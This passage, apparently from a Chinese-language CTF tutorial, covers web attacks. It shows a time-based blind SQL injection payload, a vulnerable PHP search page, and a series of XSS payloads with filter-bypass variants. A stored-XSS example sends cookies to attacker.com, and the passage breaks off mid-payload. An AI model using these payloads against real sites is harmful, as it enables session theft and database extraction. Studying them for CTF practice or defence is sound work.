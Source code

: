 ### 时间盲注

```sql
-- 时间盲注payload
admin' AND IF(ascii(substr((SELECT flag FROM flag),1,1))=102, sleep(5), 0) --+

-- 如果第一个字符是'f'(ascii=102)，页面会延迟5秒响应
```

## XSS 挑战解析

### 反射型 XSS

```php
<?php
// 存在漏洞的搜索页面
$search = $_GET['search'];
echo "搜索结果：" . $search;
?>
```

**基础 Payload：**
```javascript
// 简单弹窗
<script>alert('XSS')</script>

// 绕过过滤
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
```

**高级绕过技巧：**
```javascript
// 大小写绕过
<ScRiPt>alert('XSS')</ScRiPt>

// 编码绕过
<script>alert(String.fromCharCode(88,83,83))</script>

// 事件处理绕过
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus><option>test</option></select>

// 无括号绕过
<script>alert`XSS`</script>
<script>eval.call`${'alert\x28\x27XSS\x27\x29'}`</script>
```

### 存储型 XSS

```html
<!-- 留言板场景 -->
<form method="POST">
    <textarea name="message"></textarea>
    <input type="submit" value="提交留言">
</form>

<!-- 恶意payload -->
<script>
// 获取cookie
document.location='http://attacker.com/steal.php?cookie='+document.cookie;

// 获取页面内容
fetch('http://attacker.com/steal.php', {
    method: 'POST',
```